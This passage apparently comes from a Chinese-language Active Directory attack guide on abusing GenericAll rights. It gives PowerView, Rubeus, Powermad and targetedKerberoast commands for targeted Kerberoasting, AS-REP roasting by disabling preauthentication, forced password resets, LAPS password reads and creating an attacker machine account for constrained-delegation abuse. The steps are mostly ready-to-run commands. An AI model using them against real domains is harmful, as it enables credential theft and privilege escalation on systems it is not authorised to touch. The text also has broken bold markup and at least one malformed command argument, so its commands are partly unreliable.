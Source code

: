如果您不以该用户身份运行进程，则可能需要向域控制器进行身份验证，作为对目标用户具有完全控制权的用户。要与 Set-DomainObject 结合执行此操作，首先创建一个 PSCredential 对象（这些示例来自 PowerView 帮助文档）：

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)
```

然后，使用 Set-DomainObject，如果您尚未以完全控制目标用户的用户身份运行进程，则可以选择指定 $Cred。

```
Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
```

运行此命令后，您可以使用 Get-DomainSPNTicket，如下所示：

```
Get-DomainSPNTicket -Credential $Cred harmj0y | fl
//或者
Rubeus.exe kerberoast /user:<username> /nowrap
//或者 https://github.com/ShutdownRepo/targetedKerberoast
python3 targetedKerberoast.py -domain.local -u <username> -p password -v
```

可以使用您选择的工具离线破解恢复的哈希值。可以使用 Set-DomainObject 命令来清理 ServicePrincipalName：

```
Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname
```

**有针对性的 ASREPRoasting ：您可以**通过**禁用****预身份验证来**使用户**ASREPRoastable** ，然后对其进行 ASREProast。 

```
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```
**强制更改密码**

`net user <username> <password> /domain`  //建议使用powerview

您还可以通过对用户对象的完全控制来重置用户密码。有关此攻击的完整滥用信息，请参阅 ForceChangePassword 边缘下的信息

+ **针对计算机 - 在计算机上使用 GenericAll**

当计算机的本地管理员帐户凭据由 LAPS 控制时，对计算机对象的完全控制是可滥用的。本地管理员帐户的明文密码存储在计算机对象上名为 ms-Mcs-AdmPwd 的扩展属性中。通过完全控制计算机对象，您可能能够读取该属性，或者通过修改计算机对象的安全描述符授予自己读取该属性的能力。

或者，对计算机对象的完全控制可用于执行基于资源的约束委托攻击。

目前只能通过 Rubeus 项目滥用此原语。

首先，如果攻击者不控制具有 SPN 设置的帐户，则可以使用 Kevin Robertson 的 Powermad 项目添加新的攻击者控制的计算机帐户：

```
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```

然后可以使用 PowerView 检索新创建的计算机帐户的安全标识符 (SID)：

```
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```
